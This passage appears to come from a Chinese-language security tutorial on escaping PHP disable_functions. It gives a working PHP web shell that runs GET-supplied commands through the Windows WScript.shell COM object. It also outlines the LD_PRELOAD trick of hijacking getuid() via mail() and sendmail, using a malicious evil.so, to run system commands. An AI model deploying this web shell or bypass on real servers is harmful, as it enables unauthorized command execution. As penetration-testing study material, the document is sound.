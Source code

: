 Require:

1. Windows: `C:\Windows\System32\wshom.ocx`（默认存在）

2. PHP.ini: `com.allow_dcom = true` （默认关闭）-> Com_dotnet: extension=php_com_dotnet.dll


```php
<?php
$command = $_GET['cmd'];
$wsh = new COM('WScript.shell'); // new COM Obj
$exec = $wsh->exec("cmd /c".$command); // exec command
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
```

## 0x03 LD_PRELOAD

`LD_PRELOAD` 是 Linux 中的环境变量，可以设置成一个指定库的路径，动态链接时较其他库有着更高的优先级，允许预加载指定库中的函数和符号覆盖掉后续链接的库中的函数和符号。即可以通过重定向共享库函数来进行运行时修复。这项技术可用于绕过反调试代码，也可以用作用户机 rootkit。

### 劫持 getuid()

**Require:** Linux 中已安装并启用 sendmail 程序。

PHP 的 mail() 函数在执行过程中会默认调用系统程序 /usr/sbin/sendmail，而/usr/sbin/sendmail 会调用 getuid()。如果我们能通过 LD_PRELOAD 的方式来劫持getuid()，再用 mail() 函数来触发 sendmail程序进而执行被劫持的 getuid()，从而执行恶意代码。

\* 当 `error_log`的第二个参数 `message_type` 的值为 1 的时候，会调用 mail 函数的同一个内置函数 sendmail：

```php
error_log ( string $message [, int $message_type = 0 [, string $destination [, string $extra_headers ]]] ) : bool
```

![](/assets/images/move/2019-11-20-09-27-50.png)


```php
PHP mail() -> /usr/sbin/sendmail -> getuid() -> exec()
```

**攻击思路:**

1. 编写一个原型为 uid_t getuid(void); 的 C 函数，内部执行攻击者指定的代码，并编译成共享对象 evil.so；

2. 运行 PHP 函数 putenv()，设定环境变量 LD_PRELOAD 为 evil.so，以便后续启动新进程时优先加载该共享对象；

3. 运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于上一步 LD_PRELOAD 的作用，sendmail 调用的系统函数 getuid() 被优先级更好的 evil.so 中的同名 getuid() 所劫持；达到不调用 PHP 的各种命令执行函数（system(), exec()...etc）仍可执行系统命令的目的。
